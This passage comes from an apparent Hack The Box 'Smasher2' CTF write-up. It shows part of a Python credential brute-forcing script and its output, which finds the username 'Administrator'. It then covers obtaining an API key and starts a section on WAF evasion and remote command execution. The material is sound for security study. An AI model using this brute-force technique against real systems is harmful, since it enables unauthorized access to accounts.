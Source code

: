 ```python
            bad = bad + 1
            if bad == 5:
                print("Skipping... %s" % passwords[i])
                break
    if (not "Cannot authenticate with data" in r.text) and (bad < 5):
        print("Potential password! %s" % passwords[i])
        with open("out.txt", "a") as f:
            f.write("%s\n" % passwords[i])
    i = i + 1
    time.sleep(0.05)
```

Eventually, I found that the username `Administrator` is the right one (case-sensitive):

```
# python brute.py 
Testing username: admin
Testing username: administrator
Testing username: operator
Testing username: sql
Testing username: demo
Testing username: pos
Testing username: user
Testing username: default
Testing username: defaultaccount
Testing username: account
Testing username: accounting
Testing username: guest
Testing username: guest
Testing username: adm
Testing username: office
Testing username: manager
Testing username: Admin
Testing username: Administrator
Potential password! Administrator
```

I can now log in and get an API key:

![](/assets/images/htb-writeup-smasher2/apikey.png)

## WAF evasion then RCE

Using the `/api/<key>/job` API, I can execute some commands like `whoami`:
